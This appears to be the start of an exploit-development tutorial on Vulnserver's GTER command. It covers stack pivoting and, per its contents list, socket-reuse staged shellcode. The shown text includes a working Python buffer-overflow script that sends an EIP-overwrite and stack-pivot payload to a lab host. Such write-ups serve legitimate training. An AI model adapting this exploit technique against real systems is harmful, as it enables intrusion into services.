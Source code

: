 ```yaml
---
title: "Vulnserver GTER - Staged exploitation and Socket reusing"
classes: wide
tag: 
  - "windows exploitation"
  - "vulnserver"
header:
  teaser: /assets/images/win-exp/windows-exp.png
ribbon: blue
description: "A simple walkthrough on  Vulnserver GTER using socket reusing and staged exploitation technique"
categories: ['Exploit-Development','Windows-Exploitation','Vulnserver']
---
```


- [Vulnserver GTER - Stack pivoting & Socket Reuse](#vulnserver-gter---stack-pivoting--socket-reuse)
  - [Prologue](#prologue)
  - [Stack pivoting](#stack-pivoting)
  - [Sockets](#sockets)
  - [Socket reusage shellcode](#socket-reusage-shellcode)
  - [Analysing socket calls](#analysing-socket-calls)
  - [Crafting file descriptor](#crafting-file-descriptor)
  - [Stack adjustment](#stack-adjustment)
  - [Crafting flag argument](#crafting-flag-argument)
  - [Crafting buffer size argument](#crafting-buffer-size-argument)
  - [Crafting buffer pointer](#crafting-buffer-pointer)
  - [Finalising the socket reuse stager](#finalising-the-socket-reuse-stager)
  - [Crafting shellcode](#crafting-shellcode)
  - [Exploitation](#exploitation)

## Prologue

In last post, we would have exploited the ```GTER``` command using stack pivots and egg hunters to perform a staged exploit

But in this post, we will be performing a staged exploit on the same GTER command along with stack pivots and ```socket reusage shellcode```

## Stack pivoting

We would have discussed about this on our previous post

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 stack-pivot.py 
```